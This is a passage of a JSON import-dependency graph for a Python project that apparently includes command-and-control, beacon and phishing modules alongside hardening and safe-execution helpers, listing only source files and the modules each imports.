"EXTRACTED", "relation": "imports", "source": "core/crypto.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/crypto.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/crypto.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/crypto.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/crypto.py", "target": "cryptography.hazmat.primitives.kdf.pbkdf2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/crypto.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/crypto.py", "target": "Crypto.Cipher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/crypto.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/crypto.py", "target": "Crypto.Cipher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/defaults.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/defaults.py", "target": "tomllib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/defaults.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/defaults.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/dependencies.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/dependencies.py", "target": "importlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/dependencies.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/dependencies.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/error_advice.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/error_advice.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/error_advice.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/errors.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/executor.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/executor.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/executor.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/executor.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/executor.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/executor.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/hardening.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/hardening.py", "target": "html"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/hardening.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/hardening.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/hardening.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/hardening.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/hardening.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/hardening.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/hardening.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/hardening.py", "target": "core.host_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/hardening.py", "target": "defusedxml.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/host_policy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/host_policy.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/host_policy.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/http.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/http.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/http.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/http.py", "target": "bs4"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/http.py", "target": "requests.exceptions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/http.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/http.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/llm_budget.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/llm_budget.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/llm_budget.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/llm_budget.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/llm_budget.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/llm_budget.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/llm_budget.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/llm_budget.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/llm_budget.py", "target": "tiktoken"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/logging.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/logging.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/logging.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/logging.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/logging.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/logging.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/logging.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/logging.py", "target": "logging.handlers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/logging.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/logging.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/logging.py", "target": "traceback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/network.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/network.py", "target": "binascii"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/network.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/network.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/network.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/network.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/network.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/network.py", "target": "netifaces"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/parsers.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/parsers.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/payload_schema.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/payload_schema.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/payload_schema.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/payload_schema.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/payload_schema.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/payload_schema.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/payload_schema.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/payload_schema.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "core.safe_subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/process.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/profiles.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/profiles.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/profiles.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/profiles.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/prompt.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/prompt.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/prompt.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/prompt.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/prompt.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/prompt.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/prompt.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/prompt.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/prompt.py", "target": "platform"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/prompt.py", "target": "netifaces"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/protocols.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/protocols.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_console.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_console.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_console.py", "target": "rich"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_console.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_exec.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_exec.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_exec.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_exec.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_exec.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_exec.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_exec.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_exec.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_exec.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_exec.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_import.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_import.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_import.py", "target": "zipfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_import.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_subprocess.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_subprocess.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_subprocess.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_subprocess.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_subprocess.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_subprocess.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_subprocess.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_subprocess.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_subprocess.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_subprocess.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/safe_subprocess.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/scheduler.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/scheduler.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/scheduler.py", "target": "sched"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/scheduler.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/scheduler.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/scheduler.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/scheduler.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/scheduler.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/scheduler.py", "target": "apscheduler.schedulers.background"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/security.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/security.py", "target": "ctypes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/security.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/security.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/security.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/security.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/terminal_guard.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/terminal_guard.py", "target": "atexit"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/terminal_guard.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/terminal_guard.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/terminal_guard.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/terminal_guard.py", "target": "termios"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/terminal_guard.py", "target": "termios"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/text_utils.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/validators.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/validators.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/validators.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/validators.py", "target": "core.host_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/validators.py", "target": "core.host_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "deploy/range/ad-mini/traffic-gen.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "deploy/range/ad-mini/traffic-gen.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "deploy/range/ad-mini/traffic-gen.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "deploy/range/ad-mini/traffic-gen.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "discord_c2.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "discord_c2.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "discord_c2.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "discord_c2.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "discord_c2.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "discord_c2.py", "target": "discord"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "discord_c2.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "discord_c2.py", "target": "discord.ext"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "discord_c2.py", "target": "lazyown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "discord_c2.py", "target": "modules.llm_adapter"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "discord_c2.py", "target": "core.parsers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "key.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "key.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "key.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "key.py", "target": "rich.prompt"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "cachetools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "langchain_chroma"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "langchain_community.document_loaders"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "langchain_ollama"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "langchain_text_splitters"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "rich.live"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "watchdog.events"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "watchdog.observers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "cachetools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "chromadb"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "ollama"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazy_sentinel4.py", "target": "rich"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/addon_creator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/addon_creator.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/addon_creator.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/addon_creator.py", "target": "stat"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/addon_creator.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/addon_creator.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/addon_creator.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/addon_creator.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/addon_creator.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/addon_creator.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/addon_creator.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "flask_limiter"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "flask_limiter.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "flask_socketio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "lazyc2.blueprints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "lazyc2.extensions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/app_factory.py", "target": "lazyc2.security.services"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/__init__.py", "target": "lazyc2.blueprints.addons"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/__init__.py", "target": "lazyc2.blueprints.api"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/__init__.py", "target": "lazyc2.blueprints.api_v1"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/__init__.py", "target": "lazyc2.blueprints.auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/__init__.py", "target": "lazyc2.blueprints.beacon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/__init__.py", "target": "lazyc2.blueprints.operations"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/__init__.py", "target": "lazyc2.blueprints.phishing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/addons.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/addons.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/addons.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/addons.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/addons.py", "target": "functools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/addons.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/addons.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/addons.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/addons.py", "target": "lazyc2.addon_creator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/addons.py", "target": "lazyc2.blueprints.session_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/addons.py", "target": "lazyc2.extensions.decoy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/addons.py", "target": "lazyc2.security.csrf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api.py", "target": "functools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api.py", "target": "core.defaults"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api_v1.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api_v1.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api_v1.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api_v1.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api_v1.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api_v1.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api_v1.py", "target": "lazyc2.blueprints.api"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api_v1.py", "target": "modules.beacon_history"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api_v1.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/api_v1.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "werkzeug.security"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2.extensions.decoy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "pyotp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "pyotp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2.extensions.users"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2.extensions.users"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "lazyc2/blueprints/auth.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": 